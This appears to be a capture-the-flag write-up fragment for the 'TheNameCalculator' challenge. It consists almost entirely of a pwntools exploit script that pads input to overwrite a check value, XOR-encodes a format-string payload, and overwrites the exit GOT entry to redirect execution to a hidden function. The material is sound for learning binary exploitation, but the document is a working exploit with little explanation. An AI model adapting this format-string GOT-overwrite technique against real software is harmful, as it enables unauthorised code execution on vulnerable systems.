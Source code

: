 encrypt

```python
def encrypt(enc):
    buf = list(enc)
    for i in range(0, len(buf) - 4):
        payload = ''.join(buf[i:i+4])
        key = u32(payload)^0x5F7B4153
        buf[i:i+4] = list(p32(key))
    return ''.join(buf)
```



EXP

```python
from pwn import*
context(os='linux',arch='i386')#,log_level='debug')
n = process('./TheNameCalculator')
#n = remote('chal.noxale.com', 5678)
elf = ELF('./TheNameCalculator')

exit_got = elf.got['exit']
superSecretFunc_addr = 0x08048596
name = 'a'*(0x2c-0x10)+p32(0x6A4B825)

def encrypt(enc):
    buf = list(enc)
    for i in range(0, len(buf) - 4):
        payload = ''.join(buf[i:i+4])
        key = u32(payload)^0x5F7B4153
        buf[i:i+4] = list(p32(key))
    return ''.join(buf)

def check_name():
    n.recvuntil('name?\n')
    n.send(name)

def secretFunc(payload):
    n.recvuntil('please')
    n.send(encrypt(payload))

check_name()

payload = fmtstr_payload(12,{exit_got:superSecretFunc_addr},write_size='short')[0:21]
offset = 'aaaa%12$x'

secretFunc(payload)

n.interactive()
```


